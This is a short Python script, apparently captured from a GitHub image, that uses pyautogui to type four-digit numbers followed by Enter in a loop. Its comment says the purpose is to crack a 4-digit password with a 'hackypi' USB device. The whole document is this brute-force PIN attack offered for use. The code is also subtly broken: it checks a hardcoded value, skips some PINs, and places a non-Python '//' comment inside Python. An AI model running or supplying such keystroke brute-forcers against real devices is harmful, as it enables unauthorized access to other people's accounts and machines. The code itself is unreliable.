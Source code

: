 import pyautogui
import time
pwd=6365;
time.sleep(3)

for i in range(1000,9999):
    pyautogui.typewrite(str(i))
    pyautogui.press("enter");
    if pwd==i:
            print(i);
// these is code to crack password using hackypi usb for only 4 digit password 
